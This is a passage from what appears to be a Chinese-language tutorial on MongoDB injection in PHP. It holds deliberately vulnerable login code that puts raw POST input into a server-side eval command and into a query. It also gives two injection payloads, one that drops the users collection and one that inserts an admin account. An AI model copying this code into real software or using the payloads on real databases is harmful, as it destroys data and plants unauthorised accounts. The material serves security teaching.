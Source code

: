 #### Command 方法注入

> 



```

&lt;?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' =&gt; "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager-&gt;executeCommand('test.users', $cmd)-&gt;toArray();
$count = count($result);
if ($count &gt; 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====&lt;br&gt;';
        echo 'username:' . $user['username'] . '&lt;br&gt;';
        echo 'password:' . $user['password'] . '&lt;br&gt;';
    }
}
else{
    echo 'Login Failed';
}
?&gt;

```

> 



```
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1

```

### 布尔盲注

> 



```
&lt;?php
show_source();

$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' =&gt; $username,
    'password' =&gt; $password
));

$result = $manager-&gt;executeQuery('test.users', $query)-&gt;toArray();
$count = count($result);
if ($count &gt; 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====&lt;br&gt;';
        echo 'username:' . $user['username'] . '&lt;br&gt;';
```